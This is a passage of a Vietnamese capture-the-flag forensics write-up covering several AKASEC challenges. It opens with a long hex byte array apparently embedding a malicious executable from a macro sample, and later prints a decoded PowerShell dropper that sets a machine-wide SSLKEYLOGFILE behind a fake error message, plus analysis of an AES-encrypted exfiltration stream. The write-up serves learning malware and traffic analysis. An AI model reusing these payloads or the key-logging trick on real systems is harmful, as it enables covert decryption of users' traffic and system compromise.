H93&HB6&H1D&HD2&HCC&H05&H89&H74&H58&H7A&H3B&H3F&H1B&HBE&HF5&HDC&HC4&HC8&HDF&H8D&H4A&H53&H38&H85&HA8&H0C&H6A&H1A&HEC&HBA&H05&HF7&HA5&H4C&H3B&H38&HC9&HF9&H54&HAF&H0C&H0D&HAD&H72&H17&H84&H79&H33&HC9&H5B&HED&H0E&H60&H99&HBE&H8F&H43&H24&HBE&H59&HBD&H05&H48&HA2&H85&H43&H02&H18&H91&H3A&H01&H99&HEE&H8B&H04&HE3&H62&H59&HA7&H93&HD0&H41&H45&H3C&H2E&HA8&H72&H8D&H14&H26&H1D&H34&H37&HCC&HB8&H1C&H37&HF8&HD0&H8C&HE4&H34&HB9&HDE&H7E&H87&H92&H3A&HF3&H45&H71&HB2&H5F&H19&H4B&HC5&H3A&H09&HAD&H6E&H62&H00&H03&H63&H67&HCE&HA7&H98&H25&H5D&HA5&HA2&H8D&H88&H49&H61&H9E&HD5&H84&H00&HFD&H70&H52&H45&HDE&HFA&HE0&HAC&H01&H53&HE8&HE5&H22&H31&HF3&HBD&H27&HD8&H3A&HCE&H39&H90&H67&H2E&H3E&H48&HBB&H27&HCC&H17&H87&HD9&H2E&H88&H84&H97&H6F&H16&H6C&HE7&H50&HB3&H29&H8F&H94&HBF&H09&H98&H98&HAC&HCA&H9D&HC5&HD9&H1D&H35&HAF&H1B&H9C&HCE&H5C&H8B&HD6&H0D&H44&H49&H28&H71&H49&H45&H0B&HCC&HE6&H7F&H37&HB5&H03&HF7&H52&H08&H40&H18&H77&H54&H2F&H1C&H50&HF3&H6F&HFF&H0E&H35&HE9&H4B&H46&H90&H8F&H2C&HCE&HFF&HA8&H23&HA8&HCF&H80&H78&HB5&HBE&HC2&HE9&HD2&H2B&HF3&H8A&H4E&H4C&H3B&H8F&HB3&H01&HBF&H58&H07&HF8&H71&H9F&HC9&HCA&H10&H85&H83&H05&HC0&HB2&H44&HF6&HD3&H3A&HE3&HFD&H12&H0D&H5E&H90&H54&HA9&H57&H69&HA2&HCA&HBC&HF6&H5C&HA1&HF4&H37&HC3&H7D&HB1&H99&HCE&HC6&H7F&H0F&H4D&H71&H02&H61&HA2&HDD&H68&H33&H57&HE5&H15&H5F&H1C&H84&H90&H6C&HD8&H5A&H99&HD7&HC7&H25&H73&H8C&H0B&H2D&HF7&HB3&HD1&HA0&HEF&HCD&H83&H64&H04&HA5&H26&H66&HC0&HC0&H6C&H1B&HDC&H9A&H51&H02&H28&HF0&H28&HB6&H06&HE3&H83&H00&HE1&HBC&H78&H69&HCF&H1F&HB0&H51&H17&H33&H1E&HE4&H39&HCB&H19&H94&H9C&HB5&H62&H9F&H4D&HDD&H4E&HAC&HEE&H55&HF4&HAB&H52&H06&HAF&H30&H69&HFE&H1F&H60&H4A&H60&HCF&H46&H3F&H7A&H1C&H51&H75&HC4&HE4&HEF&H44&H40&H03&H5E&H8F&H56&H7A&H0E&HE6&H26&H98&H7F&H80&H77&H15&HE8&H1A&H7D&HFE&HF3&H16&H7C&HB0&HC4&H36&HF2&H9D&H56&H38&H65&H8F&H9D&H43&H7F&HCA&H04&H21&H11&H7E&H9B&HF9&H40&H0A&H7C&H1E&H39&H23&H1E&HF9&H3C&HC2&H3E&H4E&HC7&HCA&HF5&H57&H2A&H11&HA1&H9D&H55&H4D&HC0&HE0&HC6&H9A&H5C&H61&HCF&HB1&H69&H13&H03&H8B&H37&H32&HAA&H87&H7D&HF3&HC3&H56&HFC&HDB&H59&H1F&H87&H0B&HA7&H68&H76&HB7&H69&HCE&H53&H82&H68&H43&H70&H23&HFA&H33&H8E&H80&HDC&H7C&H44&HBF&H90&H65&HFA&H10&H6B&HF6&H4B&H4E&HA4&H6C&H4E&HED&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00
&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H2C&H30&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H54&H30&H00&H00&H38&H30&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H40&H30&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H40&H30&H00&H00&H00&H00&H00&H00&H9C&H00&H45&H78&H69&H74&H50&H72&H6F&H63&H65&H73&H73&H00&H00&H00&H00&H30&H00&H00&H4B&H45&H52&H4E&H45&H4C&H33&H32&H2E&H64&H6C&H6C&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H0D&HB5&HFF&HCF&H94&H89&H9F&H4D&H2E&H57&HED&H5D&HA2&H6F&H5E&H29&H99&H50&H8A&HEC&H28&HD7&HB7&HF9&H00&HA1&HFB&HC1&HCA&H37&H8D&HB4&HAD&H81&H9F&H41&H8C&H5C&HCE&H11
```


- Tải nó về , vứt nó lên `VirusTotal` thì mình thấy nó có dẫn đến 1 đường link cho phép tải 1 malware khác.

- Khi tải malware về thì để xem source của nó ta ko chỉ xài mỗi decompile mà ở chall này ta sẽ xài [DotPeek](https://www.jetbrains.com/decompiler/) hoặc [dnSpy](https://github.com/dnSpy/dnSpy).
- Xem source ở đây :

- Khi đọc source thì ta có thể biết nó mã hóa các tệp khác bằng giải thuật `3DES`.

- Tuy nhiên khá may là `key` và `IV` nó đều show ra cho ta biết.

- Cook nó bằng cyberchef là ra flag.


*`FLAG: AKASEC{F_MiCRoSft_777}`*

### IV. Sharing Is Not Caring.
```
Question : My friends and I use the same computer on campus and have a shared folder to exchange files. After submitting the flag for the challenge, it was leaked, and someone obtained it without my knowledge. I’m unsure how they got it.
```
- Chall này cho ta 1 file pcap và 1 file disk , ta vào check file pcap trước vậy.
- Dựa vào đề cho thì flag đã được gửi đi nhưng đã bị leak ra , mình có lọc flag và đã biết được trang web để gửi cờ nhưng mà nó không tìm thấy được, có lẽ flag đã được mã hóa dưới dạng `TLS Packet`.

- Và để decrypt thì ta cần 1 file đó là file `sslkey.log` export nó vào wireshark là ta có thể thu được flag.
- Ta mở file disk lên để kiếm file đó , thì ở đường dẫn `C:\Users\Public\Documents` thì ta thấy 1 URL  đáng nhờ và trừng khớp với trang web đã gửi đi flag mà ta tìm được trên wireshark.

- Sử dụng `curl` để xem URL đó có nội dung gì , thì thấy bên trong nó có 1 đường đãn tải xuống `FREE_RAM.exe`.

- Mình tải nó xuống sử dụng `DotPeek` để decompile nó thì thấy bên trong có 1 file `free_raw.ps1`.

- Ta sửa lại code thành như này để in nội dung của đoạn base sau khi decode ra là gì:
```
$best64code = "iQWZ0N3bvJGIlJGIuF2Yg0WYyBybuBiLlV3czlGIsF2Yp5GajVGdgI3bmBSeyJ3bzJCIy9mcyVULlRXaydlCNoQDpcSZulGajFWTnACLlxWaGd2bMlXZLx2czRCIscSRMlkRH9ETZV0SMN1UngSZsJWYpJXYWRnbl1mbvJXa25WR0V2U6oTX05WZt52bylmduVkLtVGdzl3UbpQDK0QfK0QZslmRgUGc5RVblRXStASZslmRn9GT5V2SsN3ckACa0FGUtASblRXStcXZOBCIgAiCNsHIpkSZslmRn9GT5V2SsN3ckACa0FGUtQ3clRFKgQ3bu1CKgYWaK0gCNoQDic2bs5SeltGbzNHXr5WacBVVOdUSTxlclJ3bsBHeFBCdl5mclRnbJx1c05WZtV3YvREXjlGbiVHUcNnclNXVcpzQiASPgUGbpZ0ZvxUeltEbzNHJ" ;
$base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null ;
$LOADCode = [System.text.EnCOdING]::UTF8.getsTRiNg([sysTEm.coNvErT]::FromBASe64stRInG("$BaSe64")) ;
Write-Output $LOADCode
```
- Chạy file `.ps1` thì ta thu được code này :
```
$sslKeyLogFile = "C:\Users\Public\Documents\Internet Explorer\SIGNUP\ink\sslkey.log"


if (-not (Test-Path $sslKeyLogFile)) {
    New-Item -Path $sslKeyLogFile -ItemType File
}

[System.Environment]::SetEnvironmentVariable('SSLKEYLOGFILE', $sslKeyLogFile, 'Machine')

Write-Error "sorry for technical issue. no ram can be boosted"
```
- Giải thích đơn giản thì nó sẽ tạo 1 file `sslkey.log` ở đường đãn `C:\Users\Public\Documents\Internet Explorer\SIGNUP\ink` và cấp biến môi trường `SSLKEYLOGFILE` cho file đó theo đúng đường đẫn đó.
- Vậy là ta đã biết đường đẫn có file đó rồi , tuy nhiên vẫn có 1 cách khác đó là đọc log lịch sử của lệnh powershell.

- Ta tìm thấy nó ở đường đẫn `C:\Users\yuno miles\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine` ta có thể thấy nó có nội dung y hệt con `FREE_RAM.exe` đây có thể là cách là user tạo ra con exe đó, nó cũng đề cập tới đường đẫn tạo ra file `sslkey.log` nhưng khi kiểm tra thì nó không có ở đó và có phần hơi khác so với cách trên nhưng sự khác biệt là không nhiều ta có thể mò ra được.
- Với file `sslkey.log` này ta có thể decrypt TLS packet bằng cách export nó vào wireshark và `TLS` packet sẽ tự động đc decrypt và flag sẽ được hiện ta nếu ta filter nó.
- export bằng cách `Edit > Preferences > Protocol > TLS`.

- Ta phải cấp quyền cho nó nữa mới được(bên trong view advance system).

- Ta chỉ cần filter nó là ra flag thui.

- Hoặc ta có thể sử dụng `editcap` để tự động gộp file `sslkey.log` và file `.pcapng` lại thành 1.
```
editcap --inject-secrets tls,sslkey.log network.pcapng tls-encrypt-w-keys.pcapng
```


*`FLAG: AKASEC{B4s1c_M4lw4r3_4nd_PC4P_4n4lys1s}`*

### V. Snooz
- Chall này giống chall trước cho ta 1 file pcap và lần này là 1 file memo , ta check file pcap trước thì thử check HTTP export object thì thấy có 1 file `download.dat` , lấy nó về thì thấy nó là  file `exe`.



- Sử dụng `DotPeek` để deconpilenos thì mình nhận được source này:

- Giải thích cơ bản thì con `exe` sẽ lấy dữ liệu từ port `1337` và nó cũng sử dụng thuật toán mã hóa `AES-ECB` với key là `fr33___p4l3571n3` đồng thời key cũng là 1 phần của flag. , ta sẽ lấy dữ liệu đó bằng `Tshark`.

```
$ tshark -r snooz.pcapng -Y 'tcp.dstport == 1337' -T fields -e data | tr -d '\n'
12c6b9acfc4f81810dd21f652bbfd6af12c6b9acfc4f81810dd21f652bbfd6af6f3171b1be6ae86b058cbee8887f29a361d21ef8f12ff0594c4d217a3feef8a7d993e4c7bb1fea531af0e6259c4b466629e89109ed1d5ba3f3534dacc171266613ae8d24b73bef16426d079dd1d630011899962bd6e1cf2e574ebce9cc224f626fc58fea72add0be454ab6294fe2df119cce1284440e409fc07aa482de82a1b20e449b0133eed2e00a240569c4650ffa
```
- Sử dụng `CyberChef` để decode thì ta được đoạn văn bản , văn bản đó cho ta pass là `5n00zm3m3rbr0z` để mở `pastencode`.

- Có tìm hiểu thì `pastecode` là 1 trang web để lưu trữ code thế nên ta sẽ check file memo xem có đường link nào như thế không.
```
$ strings memdump.mem | grep pastecode
\id=d58faa36-fd6c-4d85-832a-0fef9b5b7025 https://pastecode.io/s/9oz9u9h4
\id=d58faa36-fd6c-4d85-832a-0fef9b5b7025 https://pastecode.io/s/9oz9u9h4
-4d85-832a-0fef9b5b7025 https://pastecode.io/s/9oz9u9h4
```
- Quả thật là có 1 đường link như thế , ta truy cập vào , nhập pass nó sẽ cho ta 1 đoạn base64.


- Decode nó ra thì ta được dữ liệu của 1 file zip. Bên trong nó có file `flag.jpg` tuy nhiên nó cần phải có pass , mình đã thử sử dụng `john` để crack nhưng không thể , ta đành phải sử dụng cách khác , khi check pslist thì mình thấy có tiến trình `notepad.exe` chạy nữa.

- có 2 cách để xem nội dung của notepad ,  1 là sử dụng plugin [notepad](https://github.com/spitfirerxf/vol3-plugins/blob/main/notepad.py) của vol3.
```
python3 vol.py -f memdump.mem windows.notepad
# ...
This is the password for the zip containing all the importante data : Samaqlo@Akasex777
# ...
```
- 2 là dump cả tiến trình notepad đó với với `pid = 3608` , đổi đuôi file = `.data` , điều chỉnh thông số như sau ta có thể thấy được pass sẽ là `Samaqlo@Akasex777`.

- Tuuy nhiên khi nhận được ảnh ta vẫn chưa có được flag , có lẻ ta cần 1 vài kỹ năng stego.

- file jpg thì mình có thử sử dụng `steghide` nhưng ta phải có pass , nhưng khá may mình nhớ tới `stegseek` tool này có thể tự brute passphrase, sử dụng nó thì có lun flag.
```
$ stegseek flag.jpg                               
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "palestine4life"   
[i] Original filename: "flag.txt".
[i] Extracting to "flag.jpg.out".

└─$ cat flag.jpg.out 
AKASEC{05-10-2023_free_palestine}
```

*`FLAG: AKASEC{05-10-2023_free_palestine}`*